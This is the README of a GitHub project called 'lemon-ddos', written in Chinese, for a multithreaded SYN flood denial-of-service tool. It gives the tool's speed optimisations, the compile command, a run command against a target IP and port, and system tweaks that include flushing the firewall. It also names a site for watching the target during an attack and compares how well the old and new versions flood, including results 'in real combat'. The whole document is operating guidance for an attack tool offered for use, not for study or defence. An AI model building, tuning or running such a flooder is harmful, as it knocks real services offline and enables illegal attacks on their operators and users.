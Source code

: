 # lemon-ddos
# 性能优化亮点：
```
1.每个线程独立资源：
 独立套接字
 独立随机数种子
 独立数据包缓冲区
 独立统计计数器
2.网络优化：
 100MB 发送缓冲区 (#define SOCKET_BUFFER_SIZE (100 * 1024 * 1024))
 非阻塞 I/O 模式
 TCP_NODELAY 选项禁用 Nagle 算法
3.CPU 优化：
 线程绑定到特定 CPU 核心
 高性能随机数生成器 (比标准 rand() 快 10 倍)
 预计算数据包长度减少循环开销
4.内存优化：
 栈上固定缓冲区用于校验和计算
 预生成随机负载避免重复计算
```
# 编译指令：
```
gcc -O3 -march=native -mtune=native -pthread -o syn_flood syn_flood.c
```
# 运行建议：
## 以 root 权限运行：
```
sudo ./syn_flood 192.168.1.100 80 16 60 100 eth0
```
## 系统优化命令：
```
# 增加网络缓冲区
sudo sysctl -w net.core.wmem_max=12582912
sudo sysctl -w net.core.rmem_max=12582912

# 增加最大打开文件数
ulimit -n 1000000

# 禁用防火墙
sudo iptables -F
```

## 监控性能：
```
# 查看CPU使用情况（按核心）
mpstat -P ALL 1

# 查看网络吞吐量
iftop -i eth0

# 查看中断分布
watch -n1 'cat /proc/interrupts | grep eth0'
```

# 优化脚本
优化脚本optimize_network.sh很重要
优化前
![image](https://github.com/user-attachments/assets/806f562d-a1d8-44b1-999f-72202e68b98c)
优化后
![image](https://github.com/user-attachments/assets/6474cc20-a50c-4378-a286-14ce46b754e2)


# 观测
攻击的时候可以在这里观测一下目标状态
https://tcp.ping.pe/
![image](https://github.com/user-attachments/assets/64ab015e-8505-4005-8d5a-531fb909ba2e)


# 对比
旧的
![image](https://github.com/user-attachments/assets/0fac75f3-e3af-46ff-b139-2aa62f27a3cd)
新的
![image](https://github.com/user-attachments/assets/cac62dd5-9f64-4f20-9c1e-f1bfaf873a1e)
从这次测试来看，新的效果不错，但是实战中，旧的好像打出过更好的效果，不过在此次截图的测试中，在目标节点上看两个的峰值差不多，建议使用新的

